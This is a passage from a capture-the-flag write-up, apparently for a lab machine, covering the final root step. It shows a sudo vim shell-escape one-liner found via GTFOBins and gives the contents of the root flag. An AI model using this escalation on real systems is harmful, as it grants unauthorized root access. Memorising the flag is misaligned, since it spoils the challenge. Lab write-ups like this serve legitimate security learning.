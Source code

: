 &nbsp;

### What's the root flag?
We can find an exploit on GTFOBins.

![5](https://github.com/Knign/Write-ups/assets/110326359/5e49ef4e-df15-4e84-b8e3-31609938f45f)

Let's run the exploit.
```
mitch@Machine:~$ sudo /usr/bin/vim -c '!/bin/sh'

#
```
We can now read the root flag.
```
# cat /root/root.txt
Well d0n3. You made it!
```
### Answer
```
Well d0n3. You made it!
```
